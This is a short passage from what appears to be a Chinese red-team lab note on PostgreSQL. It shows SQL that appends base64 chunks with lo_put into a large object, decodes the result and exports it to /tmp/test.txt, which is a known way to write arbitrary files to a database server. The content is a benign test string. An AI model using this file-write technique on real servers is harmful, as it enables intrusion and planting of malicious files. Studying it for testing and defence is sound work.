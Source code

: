 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/12.png)

或者还可以用 lo_put 在后面拼接进行写入

```sql
select lo_create(11116);
select lo_put(11116,0,'dGVzdDEyM');
select lo_put(11116,9,'zQ1Ng==');

select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));
select lo_export(11141,'/tmp/test.txt');
SELECT lo_unlink(11141);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/45.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/46.png)

